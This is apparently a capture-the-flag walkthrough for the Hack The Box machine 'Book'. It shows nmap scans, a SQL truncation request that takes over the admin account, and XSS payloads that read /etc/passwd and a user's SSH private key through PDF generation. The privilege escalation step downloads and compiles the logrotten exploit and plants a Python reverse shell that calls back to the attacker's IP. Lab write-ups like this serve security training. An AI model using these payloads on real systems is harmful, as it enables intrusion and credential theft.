









## :book: Book :books:

### Initial Scans

**<u>Quick:</u>**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


**<u>Deep:</u>**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
| ssh2-enum-algos: 
|   kex_algorithms: (10)
|   server_host_key_algorithms: (5)
|   encryption_algorithms: (6)
|   mac_algorithms: (10)
|_  compression_algorithms: (2)
| vulners: 
|   cpe:/a:openbsd:openssh:7.6p1: 
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19      *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F...-ID-30937        *EXPLOIT*
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-auth-finder: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.176
|   url                      method
|_  http://10.10.10.176:80/  FORM
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.176
|     
|     Path: http://10.10.10.176:80/
|     Line number: 318
|     Comment: 
|_         //# sourceURL=pen.js
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-date: Wed, 24 Feb 2021 00:50:03 GMT; +12m52s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-headers: 
|   Date: Wed, 24 Feb 2021 00:50:02 GMT
|   Server: Apache/2.4.29 (Ubuntu)
|   Set-Cookie: PHPSESSID=dso5v05avfmakogcn8v480b4q2; path=/
|   Expires: Thu, 19 Nov 1981 08:52:00 GMT
|   Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: no-cache
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-mobileversion-checker: No mobile version detected.
| http-referer-checker: 
| Spidering limited to: maxpagecount=30
|_  https://codepen.io:443/assets/common/stopExecutionOnTimeout-de7e2ef6bfefd24b79a3f68b414b87b8db5b08439cac3f1012092b2290c719cd.js
| http-security-headers: 
|   Cache_Control: 
|     Header: Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: 
|     Header: Pragma: no-cache
|   Expires: 
|_    Header: Expires: Thu, 19 Nov 1981 08:52:00 GMT
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
...
|_    WWW-Mechanize/1.34
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-xssed: No previously reported XSS vuln.
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB      *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-... *EXPLOIT*
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Port 80**

- Nikto:

  

- Dirb:

  

- Gobuster:

  

- Whatweb:

  


## Getting User

After poking around a lot, we figured out that admin@book.htb can be accessed with a sql truncation attack in the create account page by using this parameter in burpsuite:





Make sure to hit ctrl+u or ctrl+shift+u for url encoding the `spaces` and the `@` symbol

```html
name=admin+++++a&email=admin%40book.htb++++++1&password=password
```

Now we can login with `admin/password` at `http://book.htb/admin/`

NOTE: THIS DID REQUIRE ALOT OF MESSING AROUND WITH TO GET IT TO WORK


Under the Collections tab for Admin, there is a pdf that we can download and read. A XSS load file exists for us to arbitrarily read any file on the system by logging on as a normal user and uploading any .pdf extension file and the following XSS script under collections

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```




Reading /etc/passwd shows a user named reader:



Let's get their RSA key so we can ssh in

```javascript
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

Convert it from pdf by 

```bash
sudo apt install python3-pdfminer
pip install pdfminer.six

#get code from here: https://github.com/pdfminer/pdfminer.six/blob/develop/tools/pdf2txt.py
python3 /usr/local/bin/pdf2txt.py /home/kali/Downloads/51619.pdf>./id_rsa

#might need to modify spaces still, so double check it
```

 Use RSA key to get in as reader:

```bash
chmod 600 id_rsa
ssh -i id_rsa reader@10.10.10.176
```



## Priv Esc

From running linpeas, we find something about timers and a logrotten?

https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation

POC Code: https://github.com/whotwagner/logrotten


Download C file to target and compile it:

```bash
wget http://10.10.14.8/logrotten.c
gcc -o logrotten logrotten.c
echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",443));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &
./logrotten -d -p ./payloadfile /home/reader/backups/access.log
```

Background the shell with ctrl+z

Write random content to access.log on target machine:

```bash
echo hello > access.log
```

Start reverse listener on port 443 to catch  shell:

```bash
sudo nc -nlvp 443
```

TTY will only be active for a short period so either spawn another reverse listener or grab the file and go!